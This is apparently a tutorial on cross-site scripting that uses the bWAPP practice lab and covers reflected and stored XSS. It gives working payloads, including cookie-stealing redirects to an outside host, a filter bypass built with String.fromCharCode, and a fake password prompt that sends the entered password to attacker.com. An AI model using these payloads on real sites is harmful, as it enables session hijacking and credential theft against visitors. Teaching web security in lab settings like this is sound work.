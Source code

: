 #Cross Site Scripting (XSS)
XSS is the most common web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. The three known types of XSS vulnerabilities that we will cover are:
* Reflected XSS
* Stored XSS
* DOM Based XSS

#Javascript
The magic behind XSS attacks is the Javascript language. Javascript is the browser's language, and as such, whenever you have a webpage, you try to use javascripts to make it do what you want it do it. 
To demonstrate this, you can simply open up your favorite browser (I prefer chrome) and access the console in the developer tools. *In chrome, just right click anywhere, and select inspect. Now click the console tab.*
In the console you can execute any piece of javascript you want to for testing purposes. However, it won't actually impact anyone else. Try executing the following:
```
console.log('Does this even work?');
alert('I am a bAd@$$ H@cK3r');
```

##Reflected XSS
Let's get started with BwaPP's 'XSS - Reflected (GET)/(POST)' exercise.
The form on the page asks us to provide a first and last name. It takes what you enter in those fields and prints into out on the page. What we can do with this is try to get that output to compromise other users using javascript.

In these exercises we are going to be using GET request exploits. So we will edit the inputs directly in the GET url. 

Let's first test to see whether it will render any javascript we enter into the field. Enter the following into the last name field. You can enter anything you want into the first name field for now. Add the following to the end of your GET url.
```
?firstname=simeon&lastname=kakpovi<script>alert("hello")</script>
```
You should get a popup window on your screen with the word "hello".

If this works, it means the page will evaluate whatever javascript we submit inthe form. We can use that to steal an authenticated user's credentials for example.
```
kakpovi<script>alert(document.cookie)</script>
```
Suppose the developed put something in place to prevent us from submitting javascript elements we can have the page evaluate our command in javascript based on each character's byte value.
```
?firstname=simeon&lastname
=<script>alert(String.fromCharCode(77,77,69,32,114,48,99,107,115,33))</script>
```

We can also redirect the user to different website of our desire. 
```
?firstname=simeon&lastname=
<script>window.location= "http://www.simeonkakpovi.com";</script>
```
Although this may seem benign, it really gets malicious when you send the user's credentials also with it. The receiving website could parse the credentials without you ever knowing.

```
<script>window.location="http://simeonkakpovi.com?cookie="+document.cookie;</script>
```

Alternatively, we can paste a link or image on the page which would take some action when the user clicks or hovers over it. 

```
<a onmouseover='alert("you’ve been pwned")’>Kakpovi</a>
```


##Stored XSS

In a stored XSS attacked, the input is actually displayed to all other users that visit the site. Take for example a blog, or a comment section. 

The following examples could be used to compromise visiting users.

```
<a onmouseover="alert('just kidding, youve been pwned')">Hello I am 
just an innocent comment</a>
```

```
<a href=“youtube.com” onmouseover='window.location="http://simeonkakpovi.com
?content="+document.cookie'>Hello I am just an innocent comment</a>
```

```
<script>alert("We need your password!");password=prompt("Enter
password...","");document.location="http://attacker.com/catch.php
?password="+encodeURI(password);</script>
```